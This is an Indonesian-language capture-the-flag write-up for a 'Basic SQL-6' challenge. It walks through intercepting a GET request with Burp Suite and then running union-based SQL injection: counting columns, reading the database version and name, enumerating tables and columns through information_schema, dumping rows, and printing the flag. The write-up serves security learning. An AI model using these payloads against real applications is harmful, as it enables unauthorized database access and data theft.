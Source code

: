 <h1><b>Basic SQL-6</h1></b>
<pre>
Select form (ID, Username, Group)
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Jika kita coba submit salah satu list, maka URLnya berubah sama sekali. Dapat dipastikan ini menggunakan method requests GET, yang artinya kita harus melakukan interception untuk modifikasi 
data yang kita kirim ke server. Disini saya menggunakan burpsuit, setting burpsuit untuk dapat melakukan interception khususnya pada challenge ini</p>
<p align='justify'>Jika selesai, coba interception content dan modifikasi dengan SQL Injection, contohnya admin --> admin'</p>
<p align='center'>
  <img src='https://github.com/enomarozi/Writeup-CTF_Online/blob/master/BackdoorCTF/Images/BurpSuit_Venom1.jpg'>
</p>
<p align='justify'>Setelah dilakukan beberapa kali injection dan hasilnya error semua, disini saya beranggapan mungkin pada form ID itu type Integer, yaitu kita harus menginputkan 
nilai yang diapiti tanda kutip(') supaya nilai inputan menjadi type string atau varchar di MySQL, dan kondisi ini berlaku union injection</p>
<p align='justify'>Sekarang coba injection untuk menentukan banyak column pada table database</p>
<pre>
1. '-1' union select 1,2 -- - (terjadi error)
2. '-1' union select 1,2,3 -- - (berhasil)
3. '-1' union select 1,2,3,4 -- - (terjadi error)
</pre>
<p align='justify'>Berarti kita mendapatkan bahwa pada table hanya terdiri 3 column, sekarang sesi mendapatkan nama table dan versi database</p>
<pre>
'-1' union select version(),database(),3 -- -
Hasilnya
Your ID : 10.3.23-MariaDB-1
Username : CTF
Group : 3
</pre>
<p align='justify'>Kita sudah mendapatkan nama databasenya yaitu <b>CTF</b>, selanjutnya mendapatkan nama table pada DB</p>
<pre>
'-1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2,3 -- -
Hasilnya
Your ID : SQL_Challenge8
Username : 2
Group : 3
</pre>
<p>Dan nama table sudah didapatkan yaitu <b>SQL_Challenge8</b>, selanjutnya mencari nama column dari table</p>
<pre>
'-1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge8'),2,3 -- -
Hasilnya
Your ID : id,username,level
Username : 2
Group : 3
</pre>
<p align='justify'>Jika kita sudah mendapatkan table dan column, sekarang kita lakukan injection untuk seluruh field, untuk field yang sudah terdapat pada list select abaikan saja, yang artinya kita mulai dari field 4,1</p>
<pre>
'-1' union select (select id from SQL_Challenge8 limit 4,1),(select username from SQL_Challenge8 limit 4,1),(select level from SQL_Challenge8 limit 4,1) -- -  
Your ID : 9989
Username : Flag
Group : privilage level flag
'-1' union select (select id from SQL_Challenge8 limit 5,1),(select username from SQL_Challenge8 limit 5,1),(select level from SQL_Challenge8 limit 5,1) -- -   
Your ID : 9999
Username : Flag
Group : more
'-1' union select (select id from SQL_Challenge8 limit 6,1),(select username from SQL_Challenge8 limit 6,1),(select level from SQL_Challenge8 limit 6,1) -- - 
Your ID : 1111
Username : Flag
Group : more again
'-1' union select (select id from SQL_Challenge8 limit 7,1),(select username from SQL_Challenge8 limit 7,1),(select level from SQL_Challenge8 limit 7,1) -- - 
Your ID : 1337
Username : Flag
Group : VenomCTF{0rd3r_BY_4_1s_3rr0r}
</pre>
<p align='center'>
  <img src='https://github.com/enomarozi/Writeup-CTF_Online/blob/master/BackdoorCTF/Images/BurpSuit_Venom2.jpg'>
</p>
<p>Dan flag didapatkan pada field 7,1 column Level</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{0rd3r_BY_4_1s_3rr0r}
</pre>
